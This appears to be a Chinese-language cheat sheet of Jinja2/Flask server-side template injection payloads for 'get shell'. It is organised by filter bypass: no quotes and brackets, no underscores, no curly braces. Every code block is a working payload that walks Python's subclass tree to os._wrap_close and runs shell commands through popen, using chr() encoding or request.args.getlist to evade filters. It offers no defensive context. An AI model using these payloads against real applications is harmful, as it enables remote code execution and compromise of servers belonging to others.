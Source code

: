 ## 通用get shell-payload

### 过滤引号、中括号

```
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(250).__init__.__globals__.__builtins__.chr %}{% for c in ().__class__.__base__.__subclasses__() %} {% if c.__name__==chr(95)%2bchr(119)%2bchr(114)%2bchr(97)%2bchr(112)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(111)%2bchr(115)%2bchr(101) %}{{ c.__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read() }}{% endif %}{% endfor %}
```





### 过滤引号、中括号、下划线

```
# 使用getlist，获取request的__class__
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
# 拆解一下，等价于下列payload
{{request|attr('__class__')}}
{{request['__class__']}}
{{request.__class__}}

# 获取__object__
{{request|attr(request.args.getlist(request.args.l1)|join)|attr(request.args.getlist(request.args.l2)|join)|attr(request.args.getlist(request.args.l2)|join)|attr(request.args.getlist(request.args.l2)|join)}}&l1=a&a=_&a=_&a=class&a=_&a=_&l2=b&b=_&b=_&b=base&b=_&b=_
# 通过flask类获取会更快
{{flask|attr(request.args.getlist(request.args.l1)|join)|attr(request.args.getlist(request.args.l2)|join)}}&l1=a&a=_&a=_&a=class&a=_&a=_&l2=b&b=_&b=_&b=base&b=_&b=_
```



### 过滤引号、中括号、下划线、花括号

```
# 打印子类并找到可以利用的类
{%print(flask|attr(request.args.getlist(request.args.l1)|join)|attr(request.args.getlist(request.args.l2)|join)|attr(request.args.getlist(request.args.l3)|join)())%}&l1=a&a=_&a=_&a=class&a=_&a=_&l2=b&b=_&b=_&b=base&b=_&b=_&l3=c&c=_&c=_&c=subclasses&c=_&c=_

# 然后稍微加一点难度
# 目录-寻找可利用类 中用到的脚本跑一下，得到os._wrap_close的序号为138（这里用这个类来演示），于是：
{%print(flask|attr(request.args.getlist(request.args.l1)|join)|attr(request.args.getlist(request.args.l2)|join)|attr(request.args.getlist(request.args.l3)|join)()|attr(request.args.getlist(request.args.l4)|join)(138)|attr(request.args.getlist(request.args.l5)|join)|attr(request.args.getlist(request.args.l6)|join)).popen(request.args.rce).read()%}&l1=a&a=_&a=_&a=class&a=_&a=_&l2=b&b=_&b=_&b=base&b=_&b=_&l3=c&c=_&c=_&c=subclasses&c=_&c=_&l4=d&d=_&d=_&d=getitem&d=_&d=_&l5=e&e=_&e=_&e=init&e=_&e=_&l6=f&f=_&f=_&f=globals&f=_&f=_&rce=whoami
# 等价于
{{''.__class__.__base__.__subclasses__()[138].__init__.__globals__.popen('whoami').read()}}
```

